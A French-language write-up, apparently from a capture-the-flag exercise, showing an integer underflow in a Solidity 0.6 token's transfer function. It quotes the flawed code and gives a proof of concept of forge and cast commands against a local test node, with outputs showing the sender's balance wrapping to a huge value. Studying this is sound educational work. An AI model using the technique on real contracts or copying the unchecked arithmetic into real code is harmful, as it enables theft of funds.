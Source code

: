 # Token.sol
Attaque de type `underflow` car la version ^0.6.0 de solidity ne prend pas en compte 
ce type de debordement automatiquement mais ca été rajouté à partir de solidity ^0.8.0.
<br>
Faille potentielle:
```javascript
 function transfer(address _to, uint256 _value) public returns (bool) {
        //Faille potentielle de type underflow 
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
```

**Impact:** 

Si la balance du msg.sender qui est 20 est inférieure à la valeur précisée par exemple ici 500
alors la balance du msg.sender passera à `type(uint256).max -value`, `value etant 500`  et la
balance du receiver sera `value qui est égale à 500`.
**Proof of code:**

forge create src/Token.sol:Token --constructor-args 20 --rpc-url 127.0.0.1
:8545 --account anvil
<br>
TK=0x5FbDB2315678afecb367f032d93F642f64180aa3 qui correspond à l'adresse du contract deployé
<br>
cast call $TK "balanceOf(address)" 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 --rpc-url 127.0.0.1:8545
outpout : 0x0000000000000000000000000000000000000000000000000000000000000014
<br>
cast --to-dec 0x0000000000000000000000000000000000000000000000000000000000000014
output: 20
<br>
cast send $TK "transfer(address,uint256)" 0x70997970C51812dc3A010C7d01b50e0d17dc79C8 500 --rpc-url 127.0.0.1:8545 --account anvil
<br>
cast call $TK "balanceOf(address)" 0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266 --rpc-url 127.0.0.1:8545
<br>
output: 0xfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe20
<br>
cast call $TK "balanceOf(address)" 0x70997970C51812dc3A010C7d01b50e0d17dc79C8 --rpc-url 127.0.0.1:8545
<br>
output: 0x00000000000000000000000000000000000000000000000000000000000001f4
<br>
cast --to-dec 0x00000000000000000000000000000000000000000000000000000000000001f4
<br>
output: 500

